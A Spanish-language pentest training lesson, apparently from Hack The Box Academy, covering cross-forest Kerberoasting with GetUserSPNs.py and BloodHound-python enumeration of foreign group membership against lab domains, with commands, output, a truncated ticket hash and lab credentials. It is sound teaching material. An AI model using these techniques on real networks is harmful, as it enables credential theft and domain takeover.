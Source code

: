 Como vimos en la sección anterior, a menudo es posible realizar Kerberoasting a través de un forest trust. Si esto es posible en el entorno que estamos evaluando, podemos realizar esto con `GetUserSPNs.py` desde nuestro Linux attack host. Para hacerlo, necesitamos credenciales para un usuario que pueda autenticarse en el otro domain y especificar el flag `-target-domain` en nuestro comando. Al realizar esto contra el domain `FREIGHTLOGISTICS.LOCAL`, vemos una entrada SPN para la cuenta `mssqlsvc`.

## Cross-Forest Kerberoasting

### Using GetUserSPNs.py

```r
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never> 
```

Ejecutando nuevamente el comando con el flag `-request` agregado, obtenemos el TGS ticket. También podríamos agregar `-outputfile <OUTPUT FILE>` para guardar directamente en un archivo que luego podríamos usar con Hashcat.

### Using the -request Flag

```r
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               


$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>
```

Luego podríamos intentar crackear esto offline usando Hashcat con el modo `13100`. Si tiene éxito, podríamos autenticarnos en el domain `FREIGHTLOGISTICS.LOCAL` como un Domain Admin. Si tenemos éxito con este tipo de ataque durante una evaluación en el mundo real, también valdría la pena verificar si esta cuenta existe en nuestro domain actual y si sufre de reutilización de contraseñas. Esto podría ser una victoria rápida para nosotros si aún no hemos podido escalar en nuestro domain actual. Incluso si ya tenemos control sobre el domain actual, valdría la pena agregar un hallazgo a nuestro informe si encontramos reutilización de contraseñas en cuentas con nombres similares en diferentes domains.

Supongamos que podemos realizar Kerberoasting a través de un trust y hemos agotado las opciones en el domain actual. En ese caso, también podría valer la pena intentar un solo password spray con la contraseña crackeada, ya que existe la posibilidad de que se pueda usar para otras cuentas de servicio si los mismos administradores están a cargo de ambos domains. Aquí, tenemos otro ejemplo de pruebas iterativas y de no dejar ninguna piedra sin mover.

---

## Hunting Foreign Group Membership with Bloodhound-python

Como se mencionó en la última sección, de vez en cuando podemos ver usuarios o administradores de un domain como miembros de un grupo en otro domain. Dado que solo `Domain Local Groups` permiten usuarios de fuera de su forest, no es raro ver a un usuario altamente privilegiado de Domain A como miembro del grupo built-in administrators en Domain B cuando se trata de una relación bidirectional forest trust. Si estamos probando desde un host Linux, podemos recopilar esta información usando la [Python implementation of BloodHound](https://github.com/fox-it/BloodHound.py). Podemos usar esta herramienta para recopilar datos de múltiples domains, ingerirlos en la herramienta GUI y buscar estas relaciones.

En algunas evaluaciones, nuestro cliente puede aprovisionar una VM para nosotros que obtiene una IP de DHCP y está configurada para usar el DNS del domain interno. En otros casos, estaremos en un attack host sin DNS configurado. En este caso, necesitaríamos editar nuestro archivo `resolv.conf` para ejecutar esta herramienta ya que requiere un DNS hostname para el Domain Controller objetivo en lugar de una dirección IP. Podemos editar el archivo de la siguiente manera usando derechos de sudo. Aquí hemos comentado las entradas del servidor de nombres actuales y agregado el nombre del domain y la dirección IP de `ACADEMY-EA-DC01` como el servidor de nombres.

### Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf

```r
cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

Una vez que esto está en su lugar, podemos ejecutar la herramienta contra el domain objetivo de la siguiente manera:

### Running bloodhound-python Against INLANEFREIGHT.LOCAL

```r
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 559 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 2950 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts

<SNIP>
```

Podemos comprimir los archivos zip resultantes para cargar un solo archivo zip directamente en la GUI de BloodHound.

### Compressing the File with zip -r

```r
zip -r ilfreight_bh.zip *.json

  adding: 20220329140127_computers.json (deflated 99%)
  adding: 20220329140127_domains.json (deflated 82%)
  adding: 20220329140127_groups.json (deflated 97%)
  adding: 20220329140127_users.json (deflated 98%)
```

Repetiremos el mismo proceso, esta vez completando los detalles para el domain `FREIGHTLOGISTICS.LOCAL`.

### Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf

```r
cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

El comando `bloodhound-python` se verá similar al anterior:

### Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL

```r
bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2

INFO: Found AD domain: freightlogistics.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 5 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 9 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 52 groups
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
```

Después de cargar el segundo conjunto de datos (ya sea cada archivo JSON o como un solo archivo zip), podemos hacer clic en `Users with Foreign Domain Group Membership` bajo la pestaña `Analysis` y seleccionar el domain de origen como `INLANEFREIGHT.LOCAL`. Aquí, veremos que la cuenta de Administrator incorporada para el domain INLANEFREIGHT.LOCAL es miembro del grupo Administrators incorporado en el domain FREIGHTLOGISTICS.LOCAL como vimos anteriormente.

### Viewing Dangerous Rights through BloodHound

![image](https://academy.hackthebox.com/storage/modules/143/foreign_membership.png)

---

## Closing Thoughts on Trusts

Como se ha visto en las últimas secciones, hay varias maneras de aprovechar domain trusts para obtener acceso adicional e incluso hacer un "end-around" y escalar privilegios en nuestro domain actual. Por ejemplo, podemos tomar el control de un domain con el que nuestro domain actual tiene un trust y encontrar reutilización de contraseñas en cuentas privilegiadas. Hemos visto cómo los derechos de Domain Admin en un child domain casi siempre significan que podemos escalar privilegios y comprometer el parent domain usando el ataque ExtraSids. Los domain trusts son un tema bastante grande y complejo. El resumen en este módulo nos ha dado las herramientas para enumerar trusts y realizar algunos ataques intra-forest y cross-forest estándar.